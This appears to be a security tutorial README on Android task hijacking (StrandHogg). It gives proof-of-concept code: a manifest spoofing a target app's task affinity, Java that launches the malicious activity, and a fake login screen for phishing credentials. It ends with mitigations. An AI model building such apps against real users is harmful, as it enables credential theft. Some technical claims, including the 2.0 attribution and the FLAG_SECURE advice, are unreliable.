 # Task Hijacking (Strandhogg)

## Overview

StrandHogg 2.0 is a critical vulnerability affecting Android devices. It allows malicious apps to pose as legitimate apps, enabling attackers to perform various malicious activities such as stealing credentials, spying on users, and more. This vulnerability is a more advanced version of the original StrandHogg vulnerability, which was first discovered in 2019.

## Key Concepts

### Task Affinity
Task affinity is an Android feature that defines how activities are grouped into tasks. By default, all activities in the same application belong to the same task. However, an app can specify a different task affinity, causing its activities to be placed in a different task.

### Task Hijacking
Task hijacking involves taking control of a legitimate app's task by inserting a malicious activity into it. Once hijacked, the malicious activity can impersonate the legitimate activity, fooling the user into interacting with it.

## How StrandHogg 2.0 Works

StrandHogg 2.0 leverages a combination of task affinity manipulation and intent handling to perform task hijacking. Here’s how it works:

1. **Malicious App Installation**: The attacker convinces the user to install a malicious app, often disguised as a legitimate or harmless app.

2. **Task Hijacking**: The malicious app declares a task affinity matching that of the target app. When the user interacts with the legitimate app, the malicious app's activity is launched instead.

3. **Impersonation**: The malicious activity can look exactly like the legitimate app's activity, tricking the user into entering sensitive information like passwords or payment details.

4. **Data Theft**: Once the user enters their credentials or other sensitive data, the malicious app captures and sends it to the attacker.

### Code Example

Let's look at a simplified example of how an attacker could exploit StrandHogg 2.0:

#### Manifest of the Malicious App
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:label="hijacking"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.Strandhogg"
        tools:targetApi="31">

        <!-- Malicious Activity configuration -->
        <activity
            android:name=".MaliciousActivity"
            android:exported="true"
            android:taskAffinity="com.target.app"
            android:launchMode="singleTask"
            android:allowTaskReparenting="true"
            android:excludeFromRecents="true">
            <intent-filter>
                <!-- Intent filter for the malicious activity -->
                <action android:name="android.intent.action.VIEW" />
            </intent-filter>
        </activity>

        <!-- MainActivity configuration -->
        <activity
            android:name=".MainActivity"
            android:exported="true"
            android:launchMode="singleTask"
            android:taskAffinity="com.target.app"
            android:excludeFromRecents="true">

            <!-- Intent filter to match the target app's activity -->
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>

```
- `taskAffinity`: Set to the package name of the target app, making the malicious activity part of the target app's task.
- `launchMode`: singleTask ensures that the activity is the only one running in its task.
- `allowTaskReparenting`: Allows the activity to move to another task if it matches the task affinity.
- `excludeFromRecents`: Hides the malicious activity from the recent apps list, making it harder for the user to detect.
### Launching the Malicious Activity
```
Intent maliciousIntent = new Intent(context, MaliciousActivity.class);
maliciousIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
context.startActivity(maliciousIntent);
```
- The attacker launches the malicious activity, which is inserted into the target app's task.

### Impersonating the Target App
To make the attack more effective, the malicious activity would closely resemble the target app’s legitimate activity. This can be done by copying the UI elements of the target app.
```
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
    android:layout_width="match_parent"
    android:layout_height="match_parent">

    <EditText
        android:id="@+id/username"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="Username" />

    <EditText
        android:id="@+id/password"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="Password"
        android:inputType="textPassword" />

    <Button
        android:id="@+id/login"
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Login" />
</RelativeLayout>

```
- The malicious activity's layout mimics the login screen of the target app, tricking the user into entering their credentials.
- onCreate method in MainActivity:
```
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    Intent maliciousIntent = new Intent(this, MaliciousActivity.class);
    maliciousIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    startActivity(maliciousIntent);
    finish();  // Optional: Close MainActivity after starting the malicious activity
}
```
### Mitigation
To protect against StrandHogg 2.0, developers should:
1. Use `FLAG_SECURE`: Apply `FLAG_SECURE` to sensitive activities to prevent them from being captured by malicious apps.
```
getWindow().setFlags(WindowManager.LayoutParams.FLAG_SECURE,
                     WindowManager.LayoutParams.FLAG_SECURE);

```
2. Restrict Task Affinity: Avoid setting a custom task affinity unless absolutely necessary. If required, ensure that it cannot be exploited by malicious apps.
3. Check for Intent Spoofing: Always validate incoming intents to ensure they come from legitimate sources.
4. Regular Security Updates: Keep your app and Android OS updated to the latest versions to benefit from the latest security patches.

## Resources
- [Promon](https://promon.co/resources/downloads/strandhogg-2-0-new-serious-android-vulnerability)
- [HackTricks](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/android-task-hijacking)